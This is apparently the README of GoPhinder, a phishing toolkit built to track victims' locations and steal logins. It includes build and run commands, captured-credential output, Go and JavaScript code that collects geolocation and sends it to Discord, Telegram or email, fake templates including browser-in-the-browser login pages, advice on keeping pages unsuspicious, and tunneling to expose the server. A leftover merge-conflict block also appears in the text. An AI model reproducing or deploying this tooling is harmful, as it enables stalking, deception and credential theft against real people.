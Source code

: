 <div align="center">
  <img src="./assets/logo.png" alt="GoPhinder" />
  <h1><strong>GoPhinder</strong></h1>
  <p>📍 A Modular Social Engineering Toolkit 📍</p>
</div>

Inspired by [seeker](https://github.com/thewhiteh4t/seeker), GoPhinder is a very modular Social Engineering toolkit initially designed for device tracking, but supports other phishing based attack types.

# Usage
```bash
./gophinder -h
Usage of ./gophinder:
  -config string
    	Path to JSON config file for notifications (default "config.json")
  -h	Show usage
  -p int
    	Web Server port (default 8080)
  -t string
    	Specify a path to a template file (default "templates/index.html")
```

## Prerequisite
| Prerequisite | Version |
|--------------|---------|
| Go           |  <=1.22 |

## Install
```bash
git clone https://github.com/CharlesTheGreat77/GoPhinder
cd GoPhinder
go mod init gophinder
go mod tidy
go build -o gophinder run.go
./gophinder -h
```

### Example
```bash
./gophinder -p 8000 -t templates/index.html | tee locations.txt

# sends location and ip logs to webhooks, email, telegram
./gophinder -t templates/index.html -config bots.json

./gophinder -t templates/bitb.html | tee creds.txt
```

## Output
Phishing for Location
```bash
[+] Server running on http://localhost:8080
┌──[Access Log]────────────[2025-05-01 22:56:55]
│ [+] Language     : en-US,en;q=0.9
│ [+] Referer      : http://localhost:8080/
│ [+] IP Address   : ::1
│ [+] User-Agent   : Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.1.15
└─────────────────────────────────────────────────────

┌──[Location Log]────────────[2025-05-01 23:04:24]
│ [+] Longitude    : xxxx
│ [+] Google Maps  : https://maps.google.com/?q=xxxx,xxxx
│ [+] IP Address   : ::1
│ [+] Latitude     : xxxx
└───────────────────────────────────────────────────────
```

Phishing for Login
```bash
┌──[Login Attempt]────────────[2025-05-04 11:59:24]
│ [+] IP Address   : ::1
│ [+] Email        : example@email.com
│ [+] Password     : hello
└────────────────────────────────────────────────────────
```

## Additional output
Additional logging/output can be attained and pushed to stdout with ease.
An approach can look like such:
```golang
// example handler seen to log location data
func HandleTrack(templatePath string, notifier notifier.Notifier) http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		var data struct { // gets data form json response from template
      			Lat float64 `json:"lat"`
      			Lon float64 `json:"lon"`
		}
    		// get json data
		if err := json.NewDecoder(r.Body).Decode(&data); err != nil {
			log.Printf("JSON decode error: %v", err)
			http.Error(w, "Bad Request", http.StatusBadRequest)
			return
		}

		ip := utils.GetIP(r) // get the ip
		fields := map[string]string{ // create map
			"IP Address":  ip, // can be anything
			"Latitude":    fmt.Sprintf("%.6f", data.Lat),
			"Longitude":   fmt.Sprintf("%.6f", data.Lon),
			"Google Maps": fmt.Sprintf("https://maps.google.com/?q=%.6f,%.6f", data.Lat, data.Lon),
		}
		if notifier != nil {
			// send to external webhooks etc.
			go notifier.Notify("Location Log", fields) // optional
		}
		logging.LogBlock("Location Log", fields) // push to the log
		w.WriteHeader(http.StatusOK) // push 200 back to client
	}
}
```

# Templates
Default templates can be found in the *templates* directory
* Fake Google Drive Access Link
* Fake Emergency/Police Local Scanning Service
* Fake Private Event Finder
* Browser In The Browser Template(s)

By Default, templates send a json response to the backend for the data to be logged
```javascript
// example to push lat and lon to the backend to be logged
navigator.geolocation.getCurrentPosition(function(position) { // get exact location
    fetch(window.location.origin + "/track", { // send to backend
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ // json request
            lat: position.coords.latitude,
            lon: position.coords.longitude
        })
    });
});
```

You can **add/customize** templates as needed, throw in a button click to execute, or do what you please!
The idea is to not have something so suspicious in terms of the context within the page.


## Notifications
To get automatic updates elsewhere, you can specify your *discord webhook, telegram token, and email credentials*. This can be done by editing the **config.json** file.
```json
{
  "discord": {
    "enabled": false,
    "webhook_url": "https://discord.com/api/webhooks/..."
  },
  "telegram": {
    "enabled": false,
    "bot_token": "123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11",
    "chat_id": "987654321"
  },
  "email": {
    "enabled": false,
    "smtp_host": "smtp.gmail.com",
    "smtp_port": 587,
    "username": "your@email.com",
    "password": "yourpassword",
    "to": "recipient@email.com"
  }
}
```

By **default**, the notification methods are set to false, but one can enable as many as needed.

## Screenshot
<<<<<<< Updated upstream
Phishing for location based information
=======
Phishing for location based permissions
>>>>>>> Stashed changes
<img src="./assets/example.png" alt="GoPhinder" />

Advanced Browser in the Browser Phishing
![BitB Video](https://github.com/user-attachments/assets/9ed1706b-2a5b-44ad-b7a5-7a6a385a1e4c)



# tunneling
Tunneling like the classic way goes can be as followed:
```bash
# cloudflared must be installed prior ideally
cloudflared tunnel --url http://localhost:8080
```

# Roadmap
1. Phishing for camera permissions
2. Add more bitb templates

# Contributions
Contributions are very welcomed for additional functionality, or templates!

# Disclaimer
<img src="./assets/disclaimer.png" alt="disclaimer" />

